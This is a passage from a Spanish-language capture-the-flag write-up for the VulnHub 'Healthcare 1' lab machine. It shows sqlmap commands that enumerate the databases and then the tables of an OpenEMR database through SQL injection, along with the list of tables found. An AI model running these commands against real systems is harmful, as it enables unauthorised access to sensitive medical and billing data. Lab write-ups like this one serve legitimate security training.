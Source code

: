 ```bash
sqlmap -r request.txt --dbs --batch
```

![alt text](/assets/img/writeups/vulnhub/healthcare1/image-5.png)

Seleccionaremos la base de datos `openemr` y veremos las tablas que tiene.

```bash
sqlmap -r request.txt -D openemr --tables --batch
```

```bash
[141 tables]
+---------------------------------+
| array                           |
| groups                          |
| log                             |
| version                         |
| addresses                       |
| amc_misc_data                   |
| ar_activity                     |
| ar_session                      |
| audit_details                   |
| audit_master                    |
| automatic_notification          |
| batchcom                        |
| billing                         |
| categories                      |
| categories_seq                  |
| categories_to_documents         |
| chart_tracker                   |
| claims                          |
| clinical_plans                  |
| clinical_plans_rules            |
| clinical_rules                  |
| code_types                      |
| codes                           |
| config                          |
| config_seq                      |
| customlists                     |
| documents                       |
| documents_legal_categories      |
| documents_legal_detail          |
| documents_legal_master          |
| drug_inventory                  |
| drug_sales                      |
| drug_templates                  |
| drugs                           |
| eligibility_response            |
| eligibility_verification        |
| employer_data                   |
| enc_category_map                |
| extended_log                    |
```